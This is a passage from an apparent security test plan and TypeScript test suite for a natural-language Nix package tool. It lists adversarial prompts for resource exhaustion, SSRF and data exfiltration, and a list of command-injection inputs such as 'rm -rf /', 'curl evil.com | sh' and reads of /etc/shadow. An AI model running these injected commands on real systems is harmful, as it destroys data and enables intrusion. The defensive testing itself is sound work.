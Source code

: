 ### 4. Resource Exhaustion Tests
```bash
# Test 1: Memory bombs
"install 1000 packages simultaneously"
"search with regex '.*' repeated 1000 times"
"create infinite recursion in query"

# Test 2: Disk exhaustion
"download 100GB package"
"create large temporary files"
"fill up /nix/store"

# Test 3: CPU exhaustion
"compile chromium from source"
"run infinite loop in build phase"
"spawn thousands of processes"
```

### 5. Network Security Tests
```bash
# Test 1: SSRF attacks
"fetch content from http://169.254.169.254/"
"install from file:///etc/passwd"
"search packages on internal-server.local"

# Test 2: DNS rebinding
"install from attacker-controlled domain"
"fetch updates from changing IP"

# Test 3: Data exfiltration
"send system info to external server"
"upload nix store to pastebin"
"leak environment variables"
```

## 🧪 Test Implementation

### Automated Security Test Suite
```typescript
// security-tests.ts
import { NixExecutor } from '../backend/nix-executor';
import { SecurityValidator } from '../backend/security';

describe('Security Tests', () => {
  let executor: NixExecutor;
  let validator: SecurityValidator;
  
  beforeEach(() => {
    executor = new NixExecutor({ dryRun: true });
    validator = new SecurityValidator();
  });
  
  describe('Command Injection Prevention', () => {
    const dangerousInputs = [
      'firefox; rm -rf /',
      'firefox$(whoami)',
      'firefox`id`',
      'firefox && curl evil.com | sh',
      'firefox | tee /etc/passwd',
      'firefox > /dev/null; cat /etc/shadow'
    ];
    
    dangerousInputs.forEach(input => {
```